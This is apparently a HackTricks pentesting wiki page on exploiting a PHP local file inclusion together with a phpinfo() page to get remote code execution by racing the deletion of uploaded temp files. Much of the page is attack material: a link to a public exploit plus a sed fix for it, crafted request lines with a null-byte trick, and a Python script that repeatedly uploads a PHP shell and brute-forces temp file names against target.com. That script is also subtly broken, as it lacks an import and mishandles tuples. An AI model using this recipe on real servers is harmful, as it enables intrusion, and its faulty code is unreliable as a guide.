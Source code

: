 

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


To exploit this vulnerability you need: **A LFI vulnerability, a page where phpinfo() is displayed, "file\_uploads = on" and the server has to be able to write in the "/tmp" directory.**

[https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/phpinfolfi.py](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/phpinfolfi.py)

**Tutorial HTB**: [https://www.youtube.com/watch?v=rs4zEwONzzk\&t=600s](https://www.youtube.com/watch?v=rs4zEwONzzk\&t=600s)

You need to fix the exploit (change **=>** for **=>**). To do so you can do:

```
sed -i 's/\[tmp_name\] \=>/\[tmp_name\] =\&gt/g' phpinfolfi.py
```

You have to change also the **payload** at the beginning of the exploit (for a php-rev-shell for example), the **REQ1** (this should point to the phpinfo page and should have the padding included, i.e.: _REQ1="""POST /install.php?mode=phpinfo\&a="""+padding+""" HTTP/1.1_), and **LFIREQ** (this should point to the LFI vulnerability, i.e.: _LFIREQ="""GET /info?page=%s%%00 HTTP/1.1\r --_ Check the double "%" when exploiting null char)

{% file src="../../.gitbook/assets/LFI-With-PHPInfo-Assistance.pdf" %}

### Theory

If uploads are allowed in PHP and you try to upload a file, this files is stored in a temporal directory until the server has finished processing the request, then this temporary files is deleted.

Then, if have found a LFI vulnerability in the web server you can try to guess the name of the temporary file created and exploit a RCE accessing the temporary file before it is deleted.

In **Windows** the files are usually stored in **C:\Windows\temp\php<<**

In **linux** the name of the file use to be **random** and located in **/tmp**. As the name is random, it is needed to **extract from somewhere the name of the temporal file** and access it before it is deleted. This can be done reading the value of the **variable $\_FILES** inside the content of the function "**phpconfig()**".

**phpinfo()**

**PHP** uses a buffer of **4096B** and when it is **full**, it is **send to the client**. Then the client can **send** **a lot of big requests** (using big headers) **uploading a php** reverse **shell**, wait for the **first part of the phpinfo() to be returned** (where the name of the temporary file is) and try to **access the temp file** before the php server deletes the file exploiting a LFI vulnerability.

**Python script to try to bruteforce the name (if length = 6)**

```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if 'load average' in r.text:  # <?php echo system('uptime');
        print('[+] We have got a shell: ' + url)
        sys.exit(0)

print('[x] Something went wrong, please try again')
```


<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


